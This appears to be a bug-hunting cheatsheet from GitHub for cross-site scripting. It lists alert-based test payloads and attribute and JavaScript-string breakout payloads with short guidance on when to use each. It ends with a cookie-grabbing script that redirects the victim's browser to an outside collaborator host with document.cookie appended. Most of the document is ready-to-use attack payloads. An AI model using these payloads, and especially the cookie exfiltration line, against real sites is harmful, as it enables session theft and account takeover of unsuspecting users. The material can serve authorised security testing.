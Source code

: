 ### Testing Alert
```js
<script>alert(1337)</script>
<svg/ onload=alert(1337)//
<Svg/OnLoad=(confirm)(1337)<!--
">cyborg71<script>alert(1337)</script>
<img src=x onerror=alert(1337)>
```
#### For testing.
```js
"><h1>cyborg.71</h1>
<script onclick="alert(1337)">
" onclick="alert(1337)
" autofocus="alert(1337)
"onmouseover="alert(1)
<a href="javascript:alert('XSS')">Click me</a>
<img src=https://i.imgflip.com/8uo0t9.jpg>
```
### Reflected XSS into attribute with angle brackets HTML-encoded
Inject ```<xss123>'"``` and see if the angle ```<>``` brackets are encoded with ```&lt;``` and ```&gt;```.
  ![Screenshot from 2024-06-12 22-48-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/4bb3d36b-cef6-49ae-ab0d-a4c6ad9c8553)<br>
If this is the case, you should inject this payloads. 
```js
" onclick="alert(1337)
" autofocus="alert(1337)
" autofocus onfocus="alert(1337)
"onmouseover="alert(1)
```
### Reflected XSS into a JavaScript string with angle brackets HTML encoded
Inject ```<xss123>'"``` and see if your payload encoded in a javascript code.<br>
![Screenshot from 2024-06-13 00-19-30](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/9180969c-2299-4adf-9c4a-a05e97629938)<br>
In this case you should try this payload to braek the code to inject maliciuos payload.
```js
xss';alert(1);'xss
```
Finally the code will look like this after response.
![Screenshot from 2024-06-13 00-27-23](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/363ddd77-30a1-48bc-850a-f85b0b92e312)

#### For cookie grabbing.
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```

